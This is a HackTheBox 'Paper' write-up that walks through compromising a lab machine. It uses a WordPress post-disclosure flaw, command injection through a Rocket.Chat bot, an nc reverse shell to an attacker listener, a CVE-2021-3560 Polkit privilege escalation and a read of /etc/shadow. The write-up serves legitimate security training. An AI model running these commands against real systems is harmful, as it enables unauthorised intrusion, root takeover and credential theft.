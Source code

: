 # Paper - HackTheBox - Writeup
Linux, 20 Base Points, Easy

![info.JPG](images/info.JPG)

## Machine

![‏‏Paper.JPG](images/Paper.JPG)
 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```22```, ```80``` and ```443```.

***User***: By observing the HTTP response we found ```office.paper``` domain on ```X-Backend-Server``` header, Found it's run behind ```WordPress version 5.2.3``` and by using ```WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts``` exploit we found URL for rocket chat, Inside the chat we found a chatbot, Using ```list``` directory command we found ```scripts``` directory, Using that we found ```run``` command which allows us to run commands, Using that we get a reverse shell as ```dwight``` user.

***Root***: By enumerating we found Polkit running, Using ```CVE-2021-3560``` we get a root shell.

![pwn.JPG](images/pwn.JPG)


## Paper Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Paper]
└──╼ $ nmap -sV -sC -oA nmap/Paper 10.10.11.143
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-10 23:38 IST
Nmap scan report for 10.10.11.143
Host is up (0.31s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

```

By observing port ```80``` and ```443``` we get the following web page:

![port80.JPG](images/port80.JPG)

If we are sending the HTTP request using [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater/using) we can see the following HTTP response:
```HTTP
HTTP/1.1 403 Forbidden
Date: Thu, 10 Feb 2022 22:20:56 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Connection: close
Content-Type: text/html; charset=UTF-8
...
```

We can see the ```X-Backend-Server``` header which contains ```office.paper```, Let's add it to ```/etc/hosts``` file.

And now by browsing to [http://office.paper](http://office.paper) we get the following web page:

![office.JPG](images/office.JPG)

Using ```wpscan``` we found this is ```WordPress version 5.2.3```, Let's use [WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts ](https://www.exploit-db.com/exploits/47690) by browsing to this URL [http://office.paper/?static=1](http://office.paper/?static=1) we get this secret post:

![secret.JPG](images/secret.JPG)

According to the secret, Let's browse to [http://chat.office.paper/register/8qozr226AhkCHZdyY](http://chat.office.paper/register/8qozr226AhkCHZdyY) (Add the subdomain before to ```/etc/hosts```):

And after successful register we get the following page:

![chathome.JPG](images/chathome.JPG)

By clicking on the ```#General``` chat room we can see the following content chat:

![chatroom.JPG](images/chatroom.JPG)

As we can see, there is a chatbot, Let's send a private message to the chatbot (the chat room is read-only so we have to send a private message), By sending the message ```recyclops help``` we get the following content:

![chathelp.JPG](images/chathelp.JPG)

We can use also ```list``` command to get the content of directories, Using that we get the content of the ```scripts``` directory of the chatbot by sending ```recyclops list ../hubot/scripts```:

![chatscripts.JPG](images/chatscripts.JPG)

Let's observe ```run.js``` file by sending ```recyclops file ../hubot/scripts/run.js```:

![chatrun.JPG](images/chatrun.JPG)

Means that we can run any command we want, Let's get a reverse shell by running ```recyclops run nc 10.10.14.14 4444 -e /bin/bash```:

![chatrun.JPG](images/chatrun.JPG)


```console
┌─[evyatar@parrot]─[/hackthebox/Paper]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.14] from office.paper [10.10.11.143] 42608
whoami
dwight
python3 -c 'import pty; pty.spawn("/bin/bash")'
[dwight@paper hubot]$ cd ..
cd ..
[dwight@paper ~]$ ls
ls
bot_restart.sh	hubot  sales  user.txt
[dwight@paper ~]$ cat user.txt
cat user.txt
6f7bd067ed613459555a00791eeba721
```

And we get the user flag ```6f7bd067ed613459555a00791eeba721```.

### Root

By running [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) we found [Polkit](https://gitlab.freedesktop.org/polkit/polkit) running, Polkit is a toolkit for defining and handling authorizations.  It is
used for allowing unprivileged processes to speak to privileged
processes.

We found the following [exploit ](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) to Polkit, Let's run it:
```console
[dwight@paper tmp]$ [dwight@paper tmp]$ bash poc.sh
bash poc.sh

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper tmp]$
```

Let's try to change to user ```secnigma``` with the password ```secnigmaftw``` and run ```sudo bash```:
```console
[dwight@paper tmp]$ su secnigma
su secnigma
Password: secnigmaftw
[secnigma@paper tmp]$ sudo bash
sudo bash
[sudo] password for secnigma: secnigmaftw

[root@paper tmp]# id && hostname
id && hostname
uid=0(root) gid=0(root) groups=0(root)
paper
[root@paper tmp]# cat /root/root.txt
cat /root/root.txt
5b268d1cdea15d04bbebb6eb17ce8ee2

```

And we get the root flag ```5b268d1cdea15d04bbebb6eb17ce8ee2```.


PDF password:
```console
[root@paper ~]# cat /etc/shadow | grep root | cut -d':' -f2
cat /etc/shadow | grep root | cut -d':' -f2
$6$rfCS6Tb3sgIjkTux$UhBHq5wWPncgtVnltzm3Squ9KBcX3/9k0y6o8AG6lNSKOobHatUWFzPS1J8uuh/QML6kyhZ10ngXa5nCBLDkL.
```